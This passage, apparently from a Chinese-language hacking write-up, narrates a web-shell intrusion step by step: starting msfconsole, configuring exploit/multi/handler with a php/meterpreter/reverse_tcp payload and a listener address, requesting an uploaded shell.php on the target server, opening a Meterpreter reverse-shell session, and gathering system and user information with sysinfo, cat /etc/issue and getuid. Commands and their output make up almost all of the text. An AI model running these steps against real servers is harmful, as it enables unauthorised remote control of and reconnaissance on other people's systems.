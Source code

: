 于是他启动了 `msfconsole`
```bash
$ msfconsole
```
并使用  `exploit/multi/handler` 这个模块
```txt
msf5 > use exploit/multi/handler 
```
依次设置好参数
```txt
msf5 exploit(multi/handler) > set LHOST 192.168.0.109
```

```txt
msf5 exploit(multi/handler) > set LPORT 4444
```

```txt
set payload php/meterpreter/reverse_tcp
```

最后一步就是运行模块了，
```txt
msf5 exploit(multi/handler) > run
```

然后 msf 开始监听。
```txt

[*] Started reverse TCP handler on 192.168.0.109:4444 

```

这时他将提示出的文件地址和链接改一下，并访问

>`http://192.168.0.116/upload/shell.php`

msf 立刻就有了结果，可想而知，服务器的安全措施有多差

```txt
[*] Started reverse TCP handler on 192.168.0.109:4444 
[*] Sending stage (38288 bytes) to 192.168.0.116
[*] Meterpreter session 1 opened (192.168.0.109:4444 -> 192.168.0.116:52350) at 2020-09-26 21:33:06 +0800

meterpreter > 
```

现在他开始获取系统简要信息
* 系统、内核版本
```txt
meterpreter > sysinfo
Computer    : localhost
OS          : Linux localhost 2.6.32-754.33.1.el6.x86_64 #1 SMP Tue Aug 25 15:29:40 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > cat /etc/issue
CentOS release 6.10 (Final)
Kernel \r on an \m
```
* 当前控制的用户权限
```txt
meterpreter > getuid
Server username: apache (48)
```

